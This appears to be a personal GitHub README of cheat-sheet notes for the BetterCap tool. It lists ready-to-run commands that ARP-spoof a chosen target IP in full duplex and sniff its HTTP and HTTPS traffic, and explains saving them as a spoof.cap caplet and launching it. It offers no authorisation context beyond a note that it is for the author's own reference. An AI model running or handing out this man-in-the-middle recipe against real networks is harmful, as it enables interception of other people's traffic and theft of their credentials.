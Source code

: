 # BetterCap

<p align="center">
  <img alt="BetterCap" src="https://raw.githubusercontent.com/bettercap/media/master/logo.png" height="140" />
</p>

## To start with the program

<p align="center">
  bettercap iface <b>name_of_interface</b>
</p>

## spoof.cap - http://

net.probe on
</br>set arp.spoof.fullduplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>net.sniff on

# spoof.cap - https://

net.probe on
</br>net.recon on
</br>set arp.spoof.fullduplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>set net.sniff.local true
</br>net.sniff on

## bettercap caplet

Copy the commands from <b>spoof.cap</b>, then edit it with the <b>target_IP</b> and save it in some directory with name "<i><b>spoof.cap</b></i>". Now, move to the particular directory and run the command below:
<p align="center"></br>bettercap -iface <b>name_of_interface</b> -caplet spoof.cap</p>

## Decleration

<p align="center">
  <i>I do not own this program/software/script. Neither I have the license to distributr/sell. This is for self understanding/remembering and easy access across systems for myself.</i>
</p>

